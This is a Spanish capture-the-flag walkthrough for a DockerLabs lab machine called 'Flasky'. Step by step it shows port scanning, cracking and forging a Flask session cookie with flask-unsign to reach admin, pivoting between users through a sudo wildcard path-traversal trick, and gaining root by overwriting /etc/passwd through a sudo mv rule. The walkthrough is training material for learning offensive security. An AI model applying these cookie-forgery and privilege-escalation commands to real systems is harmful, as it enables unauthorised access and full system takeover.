## DESCARGA Y MONTAJE DE LA MÁQUINA VULNERABLE

Vamos a la página `https://dockerlabs.es/` y allí buscamos la máquina `Flasky`. La descargamos en nuestro kali.
1-Hacemos `unzip flasky.zip` para descomprimir el contenido, esto nos crea dos archivos:
  `auto_deploy.s` y `flasky.tar`
2-Usamos los archivos descomprimidos para montar la máquina vulnerable en un docker:
  `sudo bash auto_deploy.sh flasky.tar`

  

## ENUMERACIÓN

Sabiendo que la IP de la máquina victima es: `172.17.0.2` vamos a realizar un escaneo de puertos, para ver 
cuales están abiertos y que servicios corren por ellos, así como sus versiones por si existe alguna vulnerabilidad para ellas.

```bash
sudo nmap -sS -sCV --open -p- --min-rate 5000 172.17.0.2 -vvv -oN nmap
```



Descubrimos dos puertos abiertos:

-22 con SSH en versión `OpenSSH 10.0p2` no vulnerable 

-5000 con http

El puerto 22 sin credenciales ni user para conectarnos vamos a dejarlo para más adelante, así que nos centramos en el 5000


Lanzo un wharweb y un curl por si hay algo interesante y no veo gran cosa:


 

 Abrimos la página, para ver que nos encontramos:

 



Vemos un redireccionamiento que ya nos había reportado el whatweb, y un panel.
Vemos `INIZIALIZE NEW USER`, y vamos a crear un nuevo usuario, lo pinchamos y rellenamos:


 


y nos logeamos con el nuevo usuario:

 

vemos el panel de un usuario normal, abro las herramientas de desarrollo de firefox con `F12` e inspecciono las cookies.
veo:

```bash
session  .eJyrViooyk_LzElVslIqLU4tUtIBU_GZKUpWxhB2XmIuSDYnsSwxrTQ1PV-pFgDoRRI7.ab2QdQ.L7UVJNNKxRpvrgsnWUN3Cqs-obQ
```



es una cookie flask, nos vamos a:

```bash
https://hacktricks.wiki/es/network-services-pentesting/pentesting-web/flask.html?highlight=cookie%20flask#flask-unsign
```

y vemos que se pueden decodificar y codificar si conocemos la key, instalamos `flask-unsign` y vamos a probarlo con uestra cookie:

```bash
 flask-unsign --decode --cookie '.eJyrViooyk_LzElVslIqLU4tUtIBU_GZKUpWxhB2XmIuSDYnsSwxrTQ1PV-pFgDoRRI7.ab2QdQ.L7UVJNNKxRpvrgsnWUN3Cqs-obQ'  
```
y nos decodea la cookie viendo:

```bash
{'profile': 'user', 'user_id': 3, 'username': 'lavafuego'}
```

Segun la página visitada podemos intentar sacar la key de esta manera;
```bash
flask-unsign --unsign   --cookie '.eJyrViooyk_LzElVslIqLU4tUtIBU_GZKUpWxhB2XmIuSDYnsSwxrTQ1PV-pFgDoRRI7.ab2QdQ.L7UVJNNKxRpvrgsnWUN3Cqs-obQ' --wordlist /usr/share/wordlists/rockyou.txt 
```
Si os da un error hay que aplicar la flag `--no-literal-eval`

```bash
flask-unsign --unsign   --cookie '.eJyrViooyk_LzElVslIqLU4tUtIBU_GZKUpWxhB2XmIuSDYnsSwxrTQ1PV-pFgDoRRI7.ab2QdQ.L7UVJNNKxRpvrgsnWUN3Cqs-obQ' --wordlist /usr/share/wordlists/rockyou.txt --no-literal-eval
```



Ya tenemos la key:

```
secret123
```

Ahora hay que construir la cookie:

```bash
flask-unsign --sign --cookie "{'profile': 'admin', 'user_id': 1, 'username': 'admin'}" --secret 'secret123'
```
```
.eJyrViooyk_LzElVslJKTMnNzFPSUSotTi2Kz0xRsjKEsPMScxHStQCvxRDS.ab2XYg.nDMoFAZlnoGJ5lRpZ9q3bUiYfJI
```



Ahora con la nueva cookie nos vamos a la pagina web y sustituimos la que tenemos por la nueva:




Y ahora recargamos la página:


 


Ya tenemos credenciales para SSH `peter:e6okFUI4`


## PIVOTAR ENTRE USUARIOS Y CONSEGUIR ESCALADA DE PRIVILEGIOS

Nos conectamos por SSH como el usuario peter:

```bash
ssh peter@172.17.0.2
```
 

 con `sudo -l` vemos que podemos ejecutar como el usuario `pan` `/usr/bin/bash /home/pan/*` ojo que esto tiene un asterisco que se puede sustiruir por lo que queramos.
 Creamos en `/tmp` lo siguiente:

 ```bash
echo "/bin/bash" > shellpan.sh
```

la idea es cambiar el asterisco '*' por la ruta hasta nuestro script en tmp bajando directorios
```
/home/peter-->cd ..-->/home-->cd /tmp/sellpan.sh
```
ejcutamos pues el comando ya:

```bash
sudo -u pan /usr/bin/bash /home/pan/../../tmp/shellpan.sh
```



Ya somos pan, ahora miramos `sudo -l` y vemos lo siguiente:
```
BROKEN SUDO
```



Algo bastante raro, tras comprobar la ruta absoluta de sudo:
```bash
ls -la /usr/bin/sudo
```
es accesible, algo nos impide utilizar la palabra `sudo` sola, al usar la ruta absoluta si me ha dejado



Después de unas comprobaciones, me di cuenta de que es un alias, podemos verlo en el .bashrc:



intento quitar el alias con:

```
unalias sudo
```
y no me deja, tampoco tengo nano para modificarlo y sin complicarme la cabeza decido usar la ruta absoluta
`/usr/bin/sudo` porque la otra opcion es usar regex que es bastante lioso.
lanzo:
```bash
/usr/bin/sudo -l
```
y veo algo interesante:

```
(ALL : ALL) NOPASSWD: /usr/bin/mv
```

puedo usar `mv` como cualquier usuario, esto incluye root. pienso en modificar el `/etc/passwd` asique copio el passwd y lo modifico quitando la "x" a root,
dano que no puedo usar nano utilizo EOF:

```bash
cat << EOF > passwd
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:996:996:System Message Bus:/nonexistent:/usr/sbin/nologin
sshd:x:995:65534:sshd user:/run/sshd:/usr/sbin/nologin
peter:x:1000:1000:,,,:/home/peter:/bin/bash
pan:x:1001:1001:,,,:/home/pan:/bin/bash
EOF
```


ahora vamos a reemplazar el `/etc/passwd` por el `passwd` que hemos creado:

```bash
/usr/bin/sudo -u root /usr/bin/mv passwd /etc/passwd
```

Al haber quitado la "x"  a root cuando nos intentamos cambiar a root con `su root` si tiene la `x` busca en el shadow el password al no tenerla no hace la busqueda y te conviertes en root directamente


